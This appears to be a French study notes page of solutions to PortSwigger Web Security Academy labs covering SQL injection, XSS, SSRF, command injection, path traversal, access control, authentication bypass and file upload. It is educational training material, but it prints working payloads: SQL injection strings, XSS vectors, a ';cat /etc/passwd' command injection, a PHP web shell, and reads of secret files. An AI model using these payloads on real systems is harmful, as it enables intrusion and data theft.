








[🏠 Accueil du repo](../../README.md)

# Notes PortSwigger — Web Security Academy

Labs résolus de la Web Security Academy, classés **dans l'ordre officiel des catégories du site** (SQL injection, XSS, SSRF, OS command injection, path traversal, access control, authentication, HTTP Host header attacks, file upload…).

## Sommaire

### SQL injection
- [Lab 1 — SQL injection vulnerability in WHERE clause allowing retrieval of hidden data](#lab-1--sql-injection-vulnerability-in-where-clause-allowing-retrieval-of-hidden-data)
- [Lab 2 — SQL injection vulnerability allowing login bypass](#lab-2--sql-injection-vulnerability-allowing-login-bypass)
- [Lab 3 — SQL injection attack, querying the database type and version on Oracle](#lab-3--sql-injection-attack-querying-the-database-type-and-version-on-oracle)

### Cross-site scripting (XSS)
- [Lab 4 — Reflected XSS into HTML context with nothing encoded](#lab-4--reflected-xss-into-html-context-with-nothing-encoded)
- [Lab 5 — Stored XSS into HTML context with nothing encoded](#lab-5--stored-xss-into-html-context-with-nothing-encoded)
- [Lab 6 — DOM XSS in document.write sink using source location.search](#lab-6--dom-xss-in-documentwrite-sink-using-source-locationsearch)
- [Lab 7 — DOM XSS in innerHTML sink using source location.search](#lab-7--dom-xss-in-innerhtml-sink-using-source-locationsearch)
- [Lab 8 — DOM XSS in jQuery anchor href attribute sink using location.search source](#lab-8--dom-xss-in-jquery-anchor-href-attribute-sink-using-locationsearch-source)
- [Lab 9 — DOM XSS in jQuery selector sink using a hashchange event](#lab-9--dom-xss-in-jquery-selector-sink-using-a-hashchange-event)
- [Lab 10 — Reflected XSS into attribute with angle brackets HTML-encoded](#lab-10--reflected-xss-into-attribute-with-angle-brackets-html-encoded)
- [Lab 11 — Stored XSS into anchor href attribute with double quotes HTML-encoded](#lab-11--stored-xss-into-anchor-href-attribute-with-double-quotes-html-encoded)
- [Lab 12 — Reflected XSS into a JavaScript string with angle brackets HTML encoded](#lab-12--reflected-xss-into-a-javascript-string-with-angle-brackets-html-encoded)

### Server-side request forgery (SSRF)
- [Lab 13 — Basic SSRF against the local server](#lab-13--basic-ssrf-against-the-local-server)
- [Lab 14 — Basic SSRF against another back-end system](#lab-14--basic-ssrf-against-another-back-end-system)

### OS command injection
- [Lab 15 — OS command injection, simple case](#lab-15--os-command-injection-simple-case)

### Path traversal
- [Lab 16 — File path traversal, simple case](#lab-16--file-path-traversal-simple-case)

### Access control vulnerabilities
- [Lab 17 — Unprotected admin functionality](#lab-17--unprotected-admin-functionality)
- [Lab 18 — Unprotected admin panel with unpredictable URL](#lab-18--unprotected-admin-panel-with-unpredictable-url)
- [Lab 19 — User role controlled by a request parameter](#lab-19--user-role-controlled-by-a-request-parameter)
- [Lab 20 — User ID controlled by request parameter, with unpredictable user IDs](#lab-20--user-id-controlled-by-request-parameter-with-unpredictable-user-ids)
- [Lab 21 — User ID controlled by request parameter with password disclosure](#lab-21--user-id-controlled-by-request-parameter-with-password-disclosure)

### Authentication
- [Lab 22 — Username enumeration via different responses](#lab-22--username-enumeration-via-different-responses)
- [Lab 23 — 2FA simple bypass](#lab-23--2fa-simple-bypass)

### HTTP Host header attacks
- [Lab 24 — Basic password reset poisoning](#lab-24--basic-password-reset-poisoning)

### File upload vulnerabilities
- [Lab 25 — Remote code execution via web shell upload](#lab-25--remote-code-execution-via-web-shell-upload)
- [Lab 26 — Web shell upload via Content-Type restriction bypass](#lab-26--web-shell-upload-via-content-type-restriction-bypass)

---

# SQL injection

[⬆ Sommaire](#sommaire)

## Lab 1 — SQL injection vulnerability in WHERE clause allowing retrieval of hidden data

**Catégorie :** SQL Injection

This lab contains a SQL injection vulnerability in the product category
filter. When the user selects a category, the application carries out a
SQL query like the following :

    SELECT * FROM products WHERE category = 'Gifts' AND released = 1

To solve the lab, perform a SQL injection attack that causes the
application to display one or more unreleased products.

**Résolution :**

On affine la recherche avec une des catégories proposées par le site. On
teste d’abord avec un `'` en fin d’URL pour vérifier si le site est
vulnérable aux injections SQL.

Si le site est vulnérable, on ajoute en fin d’URL :

    ' or 1=1---

Exemple :

    https://0a3b006e047c98d78092f87b0080000a.web-security-academy.net/filter?category=Lifestyle' or 1=1---

[⬆ Sommaire](#sommaire)

## Lab 2 — SQL injection vulnerability allowing login bypass

**Catégorie :** SQL Injection

This lab contains a SQL injection vulnerability in the login function.
To solve the lab, perform a SQL injection attack that logs in to the
application as the administrator user.

**Résolution :**

Lab facile — il suffit de se connecter avec :

    Username : administrator'--
    Password : (n'importe quoi)

[⬆ Sommaire](#sommaire)

## Lab 3 — SQL injection attack, querying the database type and version on Oracle

**Catégorie :** SQL Injection

This lab contains a SQL injection vulnerability in the product category
filter. You can use a UNION attack to retrieve the results from an
injected query. To solve the lab, display the database version string.

**Résolution :**

**Étape 1 : Trouver le nombre de colonnes**

Sur le paramètre vulnérable (généralement `category` dans l’URL, ex :
`/filter?category=Gifts`), on teste avec `ORDER BY` :

    ' ORDER BY 1--
    ' ORDER BY 2--
    ' ORDER BY 3--

On continue jusqu’à obtenir une erreur — le dernier numéro qui
fonctionne sans erreur donne le nombre de colonnes (souvent 2 dans ce
lab).

**Étape 2 : Confirmer avec UNION SELECT NULL**

    ' UNION SELECT NULL,NULL FROM dual--

⚠️ Sur Oracle, contrairement à MySQL, on est **obligé** d’ajouter
`FROM dual` (une table système vide qui sert de “table bidon” pour
satisfaire la syntaxe SQL d’Oracle). Si ça ne renvoie pas d’erreur, on a
le bon nombre de colonnes.

**Étape 3 : Récupérer la version**

On remplace un des `NULL` par la requête qui donne la version :

    ' UNION SELECT banner, NULL FROM v$version--

`v$version` est une table système Oracle qui contient la chaîne de
version complète de la base (nom + numéro de version).

[⬆ Sommaire](#sommaire)

---

# Cross-site scripting (XSS)

## Lab 4 — Reflected XSS into HTML context with nothing encoded

**Catégorie :** Cross-Site Scripting (XSS)

This lab contains a simple reflected cross-site scripting vulnerability
in the search functionality. To solve the lab, perform a cross-site
scripting attack that calls the `alert` function.

**Résolution :**

Le paramètre de recherche est réinjecté tel quel dans le HTML de la
réponse, sans aucun encodage. Il suffit donc d’injecter directement une
balise script dans le champ de recherche :

    

[⬆ Sommaire](#sommaire)

## Lab 5 — Stored XSS into HTML context with nothing encoded

**Catégorie :** Cross-Site Scripting (XSS)

This lab contains a stored cross-site scripting vulnerability in the
comment functionality. To solve this lab, submit a comment that calls
the `alert` function when the blog post is viewed.

**Résolution :**

Le champ commentaire est stocké et réaffiché sans aucun encodage. On
poste simplement un commentaire contenant :

    

Capture du lab résolu

[⬆ Sommaire](#sommaire)

## Lab 6 — DOM XSS in document.write sink using source location.search

**Catégorie :** DOM-based XSS

This lab contains a DOM-based cross-site scripting vulnerability in the
search query tracking functionality. It uses the JavaScript
`document.write` function, which writes data out to the page. The
`document.write` function is called with data from `location.search`,
which you can control using the website URL.

To solve this lab, perform a cross-site scripting attack that calls the
`alert` function.

**Résolution :**

    "><svg onload=alert(1)>

[⬆ Sommaire](#sommaire)

## Lab 7 — DOM XSS in innerHTML sink using source location.search

**Catégorie :** DOM-based XSS

This lab contains a DOM-based cross-site scripting vulnerability in the
search blog functionality. It uses an `innerHTML` assignment, which
changes the HTML contents of a div element, using data from
`location.search`.

To solve this lab, perform a cross-site scripting attack that calls the
`alert` function.

**Résolution :**

    

[⬆ Sommaire](#sommaire)

## Lab 8 — DOM XSS in jQuery anchor href attribute sink using location.search source

**Catégorie :** DOM-based XSS

This lab contains a DOM-based cross-site scripting vulnerability in the
submit feedback page. It uses the jQuery library's `$` selector function
to find an anchor element, and changes its `href` attribute using data
from `location.search`.

To solve this lab, make the "back" link alert `document.cookie`.

**Résolution :**

    https://YOUR-LAB-ID.web-security-academy.net/feedback?returnPath=javascript:alert(document.cookie)

[⬆ Sommaire](#sommaire)

## Lab 9 — DOM XSS in jQuery selector sink using a hashchange event

**Catégorie :** DOM-based XSS

This lab contains a DOM-based cross-site scripting vulnerability on the
home page. It uses jQuery's `$()` selector function to auto-scroll to a
given post, whose title is passed via the `location.hash` property.

To solve the lab, deliver an exploit to the victim that calls the
`print()` function in their browser.

**Contexte :**

La page écoute l'event `hashchange` et fait un `$(location.hash)` pour
scroller vers le post. `$()` avec une chaîne commençant par `<` est
traité par jQuery comme du HTML à parser/injecter, et non comme un
sélecteur CSS.

**Résolution — payload hébergé sur l'exploit server :**

    <iframe src="https://YOUR-LAB-ID.web-security-academy.net/#" onload="this.src+=''">

L'iframe charge d'abord la page sans hash (`#`), puis déclenche un
changement de hash en ajoutant le payload, ce qui lance l'event
`hashchange`. jQuery injecte alors `` dans le
DOM — l'erreur de chargement de l'image déclenche `print()`.

[⬆ Sommaire](#sommaire)

## Lab 10 — Reflected XSS into attribute with angle brackets HTML-encoded

**Catégorie :** Cross-Site Scripting (XSS)

This lab contains a reflected cross-site scripting vulnerability in the
search blog functionality where angle brackets are HTML-encoded. To
solve this lab, perform a cross-site scripting attack that injects an
attribute and calls the `alert` function.

**Contexte :**

L'injection se fait dans un attribut (`value="..."`), avec `<` et `>`
encodés mais pas les guillemets. Il faut donc casser l'attribut existant
et en ajouter un nouveau avec un gestionnaire d'événement qui se
déclenche sans clic (la livraison se fait via URL, sans interaction
utilisateur).

**Résolution :**

    " autofocus onfocus="alert(1)

`autofocus` force le focus sur le champ dès le chargement de la page, ce
qui déclenche `onfocus` automatiquement, sans interaction de la
victime. Livré à la victime via une redirection sur l'exploit server :

    

[⬆ Sommaire](#sommaire)

## Lab 11 — Stored XSS into anchor href attribute with double quotes HTML-encoded

**Catégorie :** Cross-Site Scripting (XSS)

This lab contains a stored cross-site scripting vulnerability in the
comment functionality. To solve this lab, submit a comment that calls
the `alert` function when the comment author name is clicked.

**Contexte :**

Les guillemets sont encodés, donc impossible de casser l'attribut avec
`"`. Mais le champ **Website** du formulaire de commentaire est injecté
tel quel dans `href="..."`, ce qui permet d'utiliser le pseudo-protocole
`javascript:` sans avoir besoin de guillemets.

**Résolution :**

Dans le champ **Website** du formulaire de commentaire :

    javascript:alert(1)

Une fois le commentaire posté, cliquer sur le nom de l'auteur (le lien
généré pointe vers `href="javascript:alert(1)"`) déclenche `alert(1)`.

[⬆ Sommaire](#sommaire)

## Lab 12 — Reflected XSS into a JavaScript string with angle brackets HTML encoded

**Catégorie :** Cross-Site Scripting (XSS)

This lab contains a reflected cross-site scripting vulnerability in the
search query tracking functionality where angle brackets are encoded.
The reflection occurs inside a JavaScript string. To solve this lab,
perform a cross-site scripting attack that breaks out of the JavaScript
string and calls the `alert` function.

**Contexte :**

La réflexion se fait dans une chaîne JS (`var searchTerm = 'ta_recherche';`),
avec `<` et `>` encodés mais pas les guillemets simples. Pas besoin de
nouvelles balises HTML : on casse directement la chaîne JS.

**Résolution :**

    '-alert(1)-'

Le `-` agit comme opérateur de soustraction pour fermer proprement la
chaîne et enchaîner l'appel à `alert(1)` sans casser la syntaxe JS.
Livré à la victime via l'exploit server :

    

[⬆ Sommaire](#sommaire)

---

# Server-side request forgery (SSRF)

## Lab 13 — Basic SSRF against the local server

**Catégorie :** SSRF

This lab has a stock check feature which fetches data from an internal
system. To solve the lab, change the stock check URL to access the admin
interface at `http://localhost/admin` and delete the user carlos.

**Résolution :**

On consulte un article et son niveau de stock. Avec Burp Suite, on
intercepte la requête POST de vérification de stock et on l’envoie au
Repeater. On modifie la clé `stockApi` pour :

    http://localhost/admin

La réponse révèle une ligne : `/admin/delete?username=carlos`. Il
suffit de remplacer à nouveau la clé stockApi par :

    http://localhost/admin/delete?username=carlos

[⬆ Sommaire](#sommaire)

## Lab 14 — Basic SSRF against another back-end system

**Catégorie :** SSRF

This lab has a stock check feature which fetches data from an internal
system. To solve the lab, use the stock check functionality to scan the
internal `192.168.0.X` range for an admin interface on port 8080, then
use it to delete the user carlos.

**Résolution :**

On active Burp Suite, on consulte un objet aléatoire et son stock check.
On envoie la requête POST du stock check à l’Intruder. L’objectif étant
de scanner les IPs entre `192.168.0.1` et `192.168.0.255`, on surligne
le dernier octet de l’IP et on ajoute `$` autour.

On crée un script bash pour générer la liste des valeurs à tester :

    for i in {2..254}; do echo $i >> numbers.txt; done

Ce script crée un fichier `numbers.txt` contenant les nombres de 1 à
255.

La stock API ressemble à :

    stockApi=http%3A%2F%2F192.168.0.1%3A8080%2Fadmin

On lance l’Intruder avec `numbers.txt` en payload. Une seule requête
retourne un code de statut 200 — c’est la seule qui renvoie
effectivement quelque chose. Dans cet exemple, `192.168.0.135` est la
bonne adresse IP stockApi. Dans le Repeater, la réponse donne :
`/delete?username=carlos`. On ajoute ça à la clé stockApi pour
supprimer carlos.

[⬆ Sommaire](#sommaire)

---

# OS command injection

## Lab 15 — OS command injection, simple case

**Catégorie :** OS Command Injection

This lab contains an OS command injection vulnerability in the product
stock checker. The application executes a shell command containing
user-supplied products and store IDs and returns the raw output from the
command in its response. To solve the lab, execute the `whoami` command
to determine the name of the current user.

**Résolution :**

Avec Burp Suite, on vérifie le stock d’un produit aléatoire, on récupère
la requête POST et on l’envoie au Repeater.

Avant :

    productId=18&storeId=2

Après :

    productId=18&storeId=2;cat /etc/passwd

[⬆ Sommaire](#sommaire)

---

# Path traversal

## Lab 16 — File path traversal, simple case

**Catégorie :** Path Traversal

This lab contains a path traversal vulnerability in the display of
product images. To solve the lab, retrieve the contents of the
`/etc/passwd` file.

**Contexte :**

Imagine a shopping application that displays images of items for sale.
This might load an image using the following HTML:

    

The image files are stored on disk in the location `/var/www/images/`.

**Résolution :**

En Burp Suite, on intercepte l’image, puis on modifie le code HTML de
l’image. On peut le changer pour :

    

Le `../` permet de remonter de répertoire en répertoire jusqu’au
répertoire racine où se trouve `/etc/passwd`. On transmet ensuite
la requête, et on obtient l’accès à toutes les informations sensibles
contenues dans le fichier `/etc/passwd`.

[⬆ Sommaire](#sommaire)

---

# Access control vulnerabilities

## Lab 17 — Unprotected admin functionality

**Catégorie :** Access Control

This lab has an unprotected admin panel. Solve the lab by deleting the
user carlos.

**Contexte :**

For example, a website might host sensitive functionality at the
following URL:

    https://insecure-website.com/admin

In some cases, the administrative URL might be disclosed in other
locations, such as the `robots.txt` file:

    https://insecure-website.com/robots.txt

**Résolution :**

Il y a deux façons de faire :

1.  **La plus simple** : écrire `robots.txt` après l’URI complète dans
    le navigateur.
2.  **La plus technique** : utiliser une commande dans le terminal :

<!-- -->

    gobuster dir -u https://0a1200ef04844933828bfbab000100eb.web-security-academy.net/ -w /usr/share/wordlists/dirb/common.txt

R�sultat gobuster

Cette commande trouve tous les endpoints accessibles après l’URL du
site.

Dans `robots.txt`, on trouve `/administrator-panel`. On accède
ensuite à :

    https://0a1200ef04844933828bfbab000100eb.web-security-academy.net/administrator-panel

Et on peut supprimer l’utilisateur carlos.

[⬆ Sommaire](#sommaire)

## Lab 18 — Unprotected admin panel with unpredictable URL

**Catégorie :** Access Control

This lab has an unprotected admin panel. It’s located at an
unpredictable location, but the location is disclosed somewhere in the
application. Solve the lab by accessing the admin panel and using it to
delete the user carlos.

**Contexte :**

Imagine an application that hosts administrative functions at the
following URL:

    https://insecure-website.com/administrator-panel-yb556

This might not be directly guessable by an attacker. However, the
application might still leak the URL to users — par exemple dans du
JavaScript qui construit l’interface utilisateur en fonction du rôle de
l’utilisateur.

**Résolution :**

On cherche le code source de la page ou la réponse de la page dans Burp
Suite :

Code source révélant l’URL admin

Puis on accède directement à :

    https://0af900b403dbf3788137116100ae00fb.web-security-academy.net/admin-bfs2d3

[⬆ Sommaire](#sommaire)

## Lab 19 — User role controlled by a request parameter

**Catégorie :** Access Control

This lab has an admin panel at `/admin`, which identifies administrators
using a forgeable cookie. Solve the lab by accessing the admin panel and
using it to delete the user carlos.

**Identifiants :** `wiener:peter`

**Contexte :**

Some applications determine the user’s access rights or role at login
and then store this information in a user-controllable location. This
could be :

- A hidden field
- A cookie
- A preset query string parameter

**Résolution :**

Dans Burp Suite, on modifie le cookie `id=wiener` en `admin=true`.
On obtient alors une réponse contenant deux liens :

    <a href="/admin/delete?username=carlos">
    <a href="/admin/delete?username=wiener">

On prend l’URL de la page :

    https://0ae200a4049f1e3380888a7f00e2000e.web-security-academy.net/admin

Et on ajoute le href pour supprimer carlos :

    https://0ae200a4049f1e3380888a7f00e2000e.web-security-academy.net/admin/delete?username=carlos

[⬆ Sommaire](#sommaire)

## Lab 20 — User ID controlled by request parameter, with unpredictable user IDs

**Catégorie :** Access Control (IDOR)

This lab has a horizontal privilege escalation vulnerability on the user
account page but identifies users with GUIDs. To solve the lab, find the
GUID for carlos, then submit his API key as the solution.

**Identifiants :** `wiener:peter`

**Contexte :**

Horizontal privilege escalation is when a user accesses another user’s
data at the same permission level. Par exemple, changer un paramètre
d’URL comme `id=123` en `id=124` pour voir le compte de quelqu’un
d’autre. C’est souvent dû à une vulnérabilité IDOR, où l’application ne
vérifie pas correctement si l’utilisateur est autorisé à accéder à cette
ressource. Même avec des IDs aléatoires (comme des GUIDs), c’est
toujours exploitable si ces IDs sont exposés ailleurs.

**Résolution :**

On arrive sur le site et on cherche un blog posté par l’utilisateur
carlos. On va dans Burp Suite et on récupère son id. Après connexion
avec `wiener:peter`, on change simplement l’URL en ajoutant l’id de
carlos. On obtient alors son API key.

[⬆ Sommaire](#sommaire)

## Lab 21 — User ID controlled by request parameter with password disclosure

**Catégorie :** Access Control (IDOR)

This lab has a user account page that contains the current user’s
existing password, prefilled in a masked input. To solve the lab,
retrieve the administrator’s password, then use it to delete the user
carlos.

**Identifiants :** `wiener:peter`

**Résolution :**

En se connectant avec ses identifiants, on voit dans l’URL un
`id=wiener`. On change cet id en `administrator` ou `carlos`. On peut
ainsi voler le mot de passe de l’admin, se connecter avec son compte, et
aller dans le panel admin pour supprimer carlos.

[⬆ Sommaire](#sommaire)

---

# Authentication

## Lab 22 — Username enumeration via different responses

**Catégorie :** Authentication

This lab is vulnerable to username enumeration and password brute-force
attacks. It has an account with a predictable username and password,
findable via des wordlists (candidate usernames / candidate passwords).
To solve the lab, enumerate a valid username, brute-force this user’s
password, then access their account page.

**Résolution :**

On se connecte avec des identifiants aléatoires comme `wiener:peter`,
puis on va dans Burp Suite pour repérer la requête POST du formulaire de
login. On envoie la requête à l’Intruder (`Ctrl+I`). Dans l’Intruder, on
prend `wiener` et on ajoute `$` autour. On colle la liste de candidate
usernames et on lance l’attaque.

Une fois terminé, Burp trouve un seul username qui a une longueur de
réponse différente des autres — signe que la réponse retournée est
différente pour ce cas précis. On remplace ensuite `$wiener$` par le
username correct (ex. alabama), puis on répète la même méthode pour
trouver le mot de passe.

[⬆ Sommaire](#sommaire)

## Lab 23 — 2FA simple bypass

**Catégorie :** Authentication

This lab’s two-factor authentication can be bypassed. You have already
obtained a valid username and password, but do not have access to the
user’s 2FA verification code. To solve the lab, access Carlos’s account
page.

**Identifiants :** `wiener:peter` — **Victime :** `carlos:montoya`

**Résolution :**

On entre ses propres identifiants sur la page de login. Après
validation, on change l’URL pour revenir à la page principale — en
cliquant à nouveau sur “my account”, on peut sauter le code à 4 chiffres
demandé, car le site pense qu’on est déjà connecté. On répète la même
méthode pour carlos.

[⬆ Sommaire](#sommaire)

---

# HTTP Host header attacks

## Lab 24 — Basic password reset poisoning

**Catégorie :** HTTP Host header attacks

This lab is vulnerable to password reset poisoning. The user carlos will
carelessly click on any links in emails that he receives. To solve the
lab, log in to Carlos’s account.

**Identifiants :** `wiener:peter` — les emails envoyés à ce compte sont
lisibles via le client email sur le serveur d’exploit.

[⬆ Sommaire](#sommaire)

---

# File upload vulnerabilities

## Lab 25 — Remote code execution via web shell upload

**Catégorie :** File Upload / RCE

This lab contains a vulnerable image upload function. It doesn’t perform
any validation on the files users upload before storing them on the
server’s filesystem. To solve the lab, upload a basic PHP web shell and
use it to exfiltrate the contents of the file `/home/carlos/secret`.

**Identifiants :** `wiener:peter`

**Payloads utiles :**

Lire un fichier arbitraire :

    <?php echo file_get_contents('/path/to/target/file'); ?>

Web shell simple :

    <?php echo system($_GET['command']); ?>

**Résolution :**

On crée un fichier `shell.php` contenant le web shell simple ci-dessus.
La requête web ressemble à :

    http://whatever.com/files/images/shell.php?command=cat /home/carlos/secret

Sur le site, on peut parcourir un avatar — on choisit le fichier
`shell.php` et on l’upload. Le site confirme que `/avatar/shell.php` a
été mis à jour, mais accéder directement à cet endpoint renvoie “not
found”.

Fichier uploadé non trouvé au premier endpoint

En copiant le lien de l’image, on trouve le bon endpoint :
`/files/avatar/shell.php`. On ajoute alors la commande directement
dans l’URL :

    https://0a5a00e304ac8ace81cfedff00430054.web-security-academy.net/files/avatars/shell.php?command=cat%20/home/carlos/secret

⚠️ **Attention :** l’echo est fait deux fois, donc il faut ne soumettre
qu’un seul segment comme solution valide.

[⬆ Sommaire](#sommaire)

## Lab 26 — Web shell upload via Content-Type restriction bypass

**Catégorie :** File Upload / RCE

This lab contains a vulnerable image upload function. It attempts to
prevent users from uploading unexpected file types but relies on
checking user-controllable input to verify this. To solve the lab,
upload a basic PHP web shell and use it to exfiltrate the contents of
the file `/home/carlos/secret`.

**Identifiants :** `wiener:peter`

**Résolution :**

Avec le même `shell.php` :

    <?php echo system($_GET['command']); ?>

On se connecte avec `wiener:peter` :

Page de compte après connexion

En essayant d’uploader `shell.php` directement, le site refuse :

> Sorry, file type application/x-php is not allowed. Only image/jpeg and
> image/png are allowed. Sorry, there was an error uploading your file.

Dans Burp Suite, on renvoie la requête au Repeater (`Ctrl+R`) :

Requête envoyée au Repeater

On change le `Content-Type` en `image/jpeg` et on renvoie :

Modification du Content-Type

Fichier accepté après modification

Une fois envoyé, on copie le lien de l’image :

Lien de l’image uploadée

Dans ce lien, on ajoute :

    ?command=ls /home/carlos/
    ?command=cat /home/carlos/secret

[⬆ Sommaire](#sommaire)
